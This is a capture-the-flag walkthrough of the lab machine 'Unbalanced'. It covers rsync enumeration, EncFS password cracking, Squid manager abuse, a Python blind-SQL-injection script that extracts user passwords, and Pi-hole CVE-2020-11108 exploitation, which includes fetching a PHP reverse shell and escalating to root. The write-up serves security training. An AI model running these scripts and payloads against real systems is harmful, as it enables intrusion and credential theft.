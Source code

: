 ```yaml
---
icon: /assets/avatars/unbalanced.png
image: /assets/avatars/unbalanced.png
title: Unbalanced Writeup
author: Valerio Casalino
---
```


# Unbalanced

As always, `nmap` it:

```bash
ports=$(sudo nmap -p- --min-rate=1000 -T4 10.10.10.200 | grep "^[0-9]" | cut -d '/' -f 1 | tr '\n' ',' | sed s/,$//)
mkdir nmap && sudo nmap -sC -sV -oN nma/assets/unbalanced -p $ports 10.10.10.200
...
PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey:
|   2048 a2:76:5c:b0:88:6f:9e:62:e8:83:51:e7:cf:bf:2d:f2 (RSA)
|   256 d0:65:fb:f6:3e:11:b1:d6:e6:f7:5e:c0:15:0c:0a:77 (ECDSA)
|_  256 5e:2b:93:59:1d:49:28:8d:43:2c:c1:f7:e3:37:0f:83 (ED25519)
873/tcp  open  rsync      (protocol version 31)
3128/tcp open  http-proxy Squid http proxy 4.6
|_http-server-header: squid/4.6
|_http-title: ERROR: The requested URL could not be retrieved
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
...
```

If we check port `873`, we can see the `rsync` daemon running, checking its content, we can find:

```bash
rsync -av rsync://10.10.10.200
conf_backups    EncFS-encrypted configuration backups
```

So, let's get that stuff in our working directory:

```bash
mkdir rsync-encrypted && rsync -uvrP rsync://10.10.10.200/conf_backups rsync-encrypted
```

This doesn't require authentication, but we have to crack the password of the [EncFS](https://wiki.archlinux.org/index.php/EncFS) file system using John the Ripper and its support scripts:

```bash
encfs2john rsync-encrypted > encfs-john.hash
john --wordlist=/usr/share/wordlists/passwords/rockyou.txt encfs-john.hash 2>/dev/null
```

![image-20201122174007082](/assets/unbalanced/image-20201122174007082.png)

Now we know the encryption password: `bubblegum`, so we can mount that file system using that password:

```bash
mkdir rsync-decrypted
encfs "$PWD/rsync-encrypted" "$PWD/rsync-decrypted"
# Insert password and we're ON
```

Reading `squid.conf` we can find useful information on port `3128`... [Squid](http://www.squid-cache.org/) is used as an HTTP proxy server requiring authentication to be used. This line gives us a new host:

![image-20201122174703962](/assets/unbalanced/image-20201122174703962.png)

Adding that virtual host to our hosts file, visiting that page we get a redirection by `index.php`:

![image-20201122211206917](/assets/unbalanced/image-20201122211206917.png)

Then, this page is in front of us:

![image-20201122211239642](/assets/unbalanced/image-20201122211239642.png)

Now, this other line gives us credentials to interact with `squid` remotely:

![image-20201122211335206](/assets/unbalanced/image-20201122211335206.png)

Now, what we need to do is fuzzing around with `squidclient`:

```bash
# This will show a list of stuff we can see (disabled or protected) with this client
squidclient -h 10.10.10.200 -w 'Thah$Sh1' mgr:menu
# The important thing is here
squidclient -h 10.10.10.200 -w 'Thah$Sh1' mgr:fqdncache
...
Address                                       Flg TTL Cnt Hostnames
127.0.1.1                                       H -001   2 unbalanced.htb unbalanced
::1                                             H -001   3 localhost ip6-localhost ip6-loopback
172.31.179.2                                    H -001   1 intranet-host2.unbalanced.htb
172.31.179.3                                    H -001   1 intranet-host3.unbalanced.htb
127.0.0.1                                       H -001   1 localhost
172.17.0.1                                      H -001   1 intranet.unbalanced.htb
ff02::1                                         H -001   1 ip6-allnodes
ff02::2                                         H -001   1 ip6-allrouters
...
```

Seems like `172.17.0.1` is a load balancer, so let's watch the hosts in which we are never redirected, after a while we get the right one (`172.31.179.1`). It is apparently the same, except for the fact that this is vulnerable to SQL injections:

![image-20201122211948673](/assets/unbalanced/image-20201122211948673.png)

Now we should exploit this SQLi to get some passwords! After some trial and errors, we can see that the best injection comes from querying the password substring to get a list of users with that password. This is done with this parameter in the password field:

```sql
' or substring(Password,{i},1)='{letter}
```

Putting it in a python script for all users:

```python
# Built in
import string
import re
import sys

# External
import requests

# Users retrieved with basic SQLi from http://172.31.179.1/intranet.php
users = [ 'rita', 'jim', 'bryan', 'sarah' ]
# List of credentials to print in the end!
final = []

print("Welcome!! it'll be done in moments", end ="")

for user in users:
    print(f"\n[*] Starting with {user}")
    stop = False
    password = ""
    i = 1
    while not stop:
        stop = True
        for letter in string.printable:
            # Endpoint
            url = "http://172.31.179.1/intranet.php"
            # POST data found with BURP
            data = {
                    "Username": "lolz", 
                    "Password": f"' or substring(Password,{i},1)='{letter}"
                    }
            # Proxy config for response module
            proxy = {"http": "http://10.10.10.200:3128"}
            # Initializing actual request
            res = requests.post(url, data=data, proxies=proxy)
            # If our user is found, then break the loop and look for another
            # letter incrementing the counter
            if re.search(user, res.text):
                # Look for the next letter
                stop = False
                i += 1
                # Update password
                password += letter
                # Rewrite line
                sys.stdout.write('\r')
                sys.stdout.flush()
                # Print line
                print(f"[+] {user}'s password: {password}", end="")
                break

```

 And the results are here!

![image-20201122223842975](/assets/unbalanced/image-20201122223842975.png)

Let's try to `ssh` in, and the only user who can is `bryan`. In `bryan`'s directory, we find the `TODO` file, which gives us info about what the user is working on. 

```
############
# Intranet #
############
* Install new intranet-host3 docker [DONE]
* Rewrite the intranet-host3 code to fix Xpath vulnerability [DONE]
* Test intranet-host3 [DONE]
* Add intranet-host3 to load balancer [DONE]
* Take down intranet-host1 and intranet-host2 from load balancer (set as quiescent, weight zero) [DONE]
* Fix intranet-host2 [DONE]
* Re-add intranet-host2 to load balancer (set default weight) [DONE]
- Fix intranet-host1 [TODO]
- Re-add intranet-host1 to load balancer (set default weight) [TODO]

###########
# Pi-hole #
###########
* Install Pi-hole docker (only listening on 127.0.0.1) [DONE]
* Set temporary admin password [DONE]
* Create Pi-hole configuration script [IN PROGRESS]
- Run Pi-hole configuration script [TODO]
- Expose Pi-hole ports to the network [TODO]
```

We learn that there is PI-Hole running in a Docker container, so let's discover where is the web interface.

![image-20201122233022143](/assets/unbalanced/image-20201122233022143.png)

Now we can go to the Pi-Hole admin page located at `http://172.31.11.3/admin/index.php`:

![image-20201122233125990](/assets/unbalanced/image-20201122233125990.png)

If you make a research using that particular software version you can find [this article](https://frichetten.com/blog/cve-2020-11108-pihole-rce/), which will guide us to RCE and privilege escalation. The credentials for the admin page are `admin:admin` by the way. Follow the instructions on the article to get this result:

![image-20201122234006765](/assets/unbalanced/image-20201122234006765.png)

Then, after `.domains`, paste some malicious PHP, in my case, I used this:

```bash
curl -sL "wget https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php" | xclip -sel c
```

This command should copy the php script in the clipboard, but in case it doesn't work, just visit the url. After that, visit `/admin/scripts/pi-hole/php/lolz.php` to trigger the shell. And here we have `www-data`:

![image-20201122235326489](/assets/unbalanced/image-20201122235326489.png)

Still following the article, now we should overwrite `teleport.php` and restart `pihole` triggering another shell as `root` (as the standard script of PI-Hole) launches the process as `root`:

![image-20201122235933785](/assets/unbalanced/image-20201122235933785.png)

And... now it is strange, because in the configuration script written by `root`, we find a password that can be used to login with (`su root`), but I expected something more.

![image-20201123000132518](/assets/unbalanced/image-20201123000132518.png)

Anyway... profit!

